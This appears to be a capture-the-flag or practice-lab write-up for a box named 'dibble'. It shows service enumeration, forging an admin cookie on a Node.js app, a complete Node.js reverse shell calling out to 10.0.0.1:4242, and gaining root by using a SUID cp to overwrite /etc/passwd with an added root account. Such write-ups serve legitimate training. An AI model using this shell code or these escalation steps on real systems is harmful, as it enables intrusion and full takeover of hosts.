








# Network enumeration 

```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp


---------------------Starting Script Scan-----------------------


PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.155
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp   open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 9d:3f:eb:1b:aa:9c:1e:b1:30:9b:23:53:4b:cf:59:75 (RSA)
|   256 cd:dc:05:e6:e3:bb:12:33:f7:09:74:50:12:8a:85:64 (ECDSA)
|_  256 a0:90:1f:50:78:b3:9e:41:2a:7f:5c:6f:4d:0e:a1:fa (ED25519)
80/tcp   open  http    Apache httpd 2.4.46 ((Fedora))
|_http-title: Home | Hacking Articles
|_http-generator: Drupal 9 (https://www.drupal.org)
|_http-server-header: Apache/2.4.46 (Fedora)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
3000/tcp open  http    Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Unix

```

# 21 FTP authentication

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/dibble]
└─$ ftp 192.168.166.110
Connected to 192.168.166.110.
ftp> user anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||44621|)
ftp: Can't connect to `192.168.166.110:44621': Connection timed out
200 EPRT command successful. Consider using EPSV.
^C
421 Service not available, user interrupt. Connection closed.
ftp> exit

```

FTP can't login

# 80 HTTP enumeration

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/dibble]
└─$ dirsearch -u http://192.168.166.110/

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/aaron/.dirsearch/reports/192.168.166.110/-_23-08-13_01-29-15.txt

Error Log: /home/aaron/.dirsearch/logs/errors-23-08-13_01-29-15.log

Target: http://192.168.166.110/

[01:29:16] Starting: 
[01:30:02] 200 -   95B  - /INSTALL.txt
[01:30:03] 200 -   18KB - /LICENSE.txt
[01:30:05] 200 -    6KB - /README.txt
[01:31:10] 200 -    3KB - /composer.json
[01:31:14] 200 -    8KB - /contact
[01:31:14] 200 -  154KB - /composer.lock
[01:31:43] 200 -   13KB - /index.php
[01:32:08] 200 -  677B  - /modules/
[01:32:12] 200 -   13KB - /node
[01:32:31] 200 -    2KB - /robots.txt
[01:32:38] 200 -    0B  - /sites/example.sites.php
[01:32:38] 200 -  515B  - /sites/README.txt
[01:32:47] 200 -    1KB - /themes/
[01:32:53] 200 -    8KB - /user/login/
[01:32:57] 200 -    4KB - /web.config
[01:30:27] 403 -    4KB - /admin/?/login
[01:30:28] 403 -    4KB - /admin/index


```

## Rebots.txt

```bash
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
# CSS, JS, Images
Allow: /core/*.css$
Allow: /core/*.css?
Allow: /core/*.js$
Allow: /core/*.js?
Allow: /core/*.gif
Allow: /core/*.jpg
Allow: /core/*.jpeg
Allow: /core/*.png
Allow: /core/*.svg
Allow: /profiles/*.css$
Allow: /profiles/*.css?
Allow: /profiles/*.js$
Allow: /profiles/*.js?
Allow: /profiles/*.gif
Allow: /profiles/*.jpg
Allow: /profiles/*.jpeg
Allow: /profiles/*.png
Allow: /profiles/*.svg
# Directories
Disallow: /core/
Disallow: /profiles/
# Files
Disallow: /README.txt
Disallow: /web.config
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /index.php/admin/
Disallow: /index.php/comment/reply/
Disallow: /index.php/filter/tips
Disallow: /index.php/node/add/
Disallow: /index.php/search/
Disallow: /index.php/user/password/
Disallow: /index.php/user/register/
Disallow: /index.php/user/login/
Disallow: /index.php/user/logout/

```

`web.config` shows the xml, no useful information.



`/admin/?/login/` and `/admin/index` access denied.



`/user/login` no useful creds. 

Create an account, `aaron: aaron`


# Node.js 3000

Try to create a new log event.


But that say only the admin can update the Event Logs.

When we create a log event, we can see the Request Cookies.



Get a base64 encode `userLevel`, decode this string can get the value is `default`



Then encrypt the admin to base64. `YWRtaW4=`, use `burpsuite` to change the value.



Then we can see that's useful for running `2*2`.


Now try to use node.js rev shell.

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```



Then get shell from :3000



# PE

```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.9.2


╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/benjamin/.local/bin:/home/benjamin/bin:/usr/lib/node_modules/npm/node_modules/npm-lifecycle/node-gyp-bin:/home/benjamin/app/node_modules/.bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:27017           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      959/node            
tcp6       0      0 :::80                   :::*                    LISTEN      - 


╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash

╔══════════╣ Users with console
benjamin:x:1000:1000::/home/benjamin:/bin/bash
root:x:0:0:root:/root:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1000(benjamin) gid=1000(benjamin) groups=1000(benjamin)
uid=11(operator) gid=0(root) groups=0(root)
uid=12(games) gid=100(users) groups=100(users)
uid=14(ftp) gid=50(ftp) groups=50(ftp)
uid=192(systemd-network) gid=192(systemd-network) groups=192(systemd-network)
uid=193(systemd-resolve) gid=193(systemd-resolve) groups=193(systemd-resolve)
uid=1(bin) gid=1(bin) groups=1(bin)
uid=2(daemon[0m) gid=2(daemon[0m) groups=2(daemon[0m)
uid=3(adm) gid=4(adm) groups=4(adm)
uid=48(apache) gid=48(apache) groups=48(apache)
uid=4(lp) gid=7(lp) groups=7(lp)
uid=59(tss) gid=59(tss) groups=59(tss)
uid=5(sync) gid=0(root) groups=0(root)
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
uid=6(shutdown) gid=0(root) groups=0(root)
uid=74(sshd) gid=74(sshd) groups=74(sshd)
uid=7(halt) gid=0(root) groups=0(root)
uid=81(dbus) gid=81(dbus) groups=81(dbus)
uid=8(mail) gid=12(mail) groups=12(mail)
uid=994(nginx) gid=991(nginx) groups=991(nginx)
uid=995(mongod) gid=992(mongod) groups=992(mongod)
uid=996(chrony) gid=993(chrony) groups=993(chrony)
uid=997(unbound) gid=994(unbound) groups=994(unbound)
uid=998(systemd-timesync) gid=996(systemd-timesync) groups=996(systemd-timesync)
uid=999(systemd-coredump) gid=997(systemd-coredump) groups=997(systemd-coredump)

═════════════════════════════╣ Software Information 
╔══════════╣ Useful software
/usr/bin/base64
/usr/bin/curl
/usr/bin/make
/usr/bin/php
/usr/sbin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget

Possible mongo anonymous authentication
-rw-r--r--. 1 root root 830 Aug 19  2020 /etc/mongod.conf
systemLog:
  destination: file
  logAppend: true
  path: /var/log/mongodb/mongod.log
storage:
  dbPath: /var/lib/mongo
  journal:
    enabled: true
processManagement:
  timeZoneInfo: /usr/share/zoneinfo
net:
  port: 27017
  
╔══════════╣ Analyzing Drupal Files (limit 70)
-r--r--r-- 1 apache apache 31309 Sep 28  2020 /var/www/html/sites/default/settings.php
 *   'database' => 'databasename',
 *   'username' => 'sqlusername',
 *   'password' => 'sqlpassword',
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
 *   'prefix' => '',
 * by using the 'prefix' setting. If a prefix is specified, the table
 * To have all database names prefixed, set 'prefix' as a string:
 *   'prefix' => 'main_',
 * To provide prefixes for specific tables, set 'prefix' as an array.
 *   'prefix' => [
 *   'prefix' => [
 *     'driver' => 'pgsql',
 *     'database' => 'databasename',
 *     'username' => 'sqlusername',
 *     'password' => 'sqlpassword',
 *     'host' => 'localhost',
 *     'prefix' => '',
 *     'driver' => 'sqlite',
 *     'database' => '/path/to/databasefilename',
 *     'driver' => 'mydriver',
 *     'database' => 'databasename',
 *     'username' => 'sqlusername',
 *     'password' => 'sqlpassword',
 *     'host' => 'localhost',
 *     'prefix' => '',
  'database' => 'sites/default/files/.ht.sqlite',
  'prefix' => '',
  'driver' => 'sqlite',


```

Then find `cp` has `suid` permissions



Then use `cp` to get root.

```bash
[benjamin@dibble ~]$ cat /etc/passwd > passwd.bak

[benjamin@dibble ~]$ openssl passwd aaron
openssl passwd aaron
gaDFtFvvEwqho
[benjamin@dibble ~]$ echo "root2:gaDFtFvvEwqho:0:0:root:/root:/bin/bash" >> passwd.bak
[benjamin@dibble ~]$ mv passwd.bak passwd
[benjamin@dibble ~]$ cp passwd /etc/passwd
[benjamin@dibble ~]$ su root2
Password: aaron
[root@dibble benjamin]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@dibble benjamin]# 

```

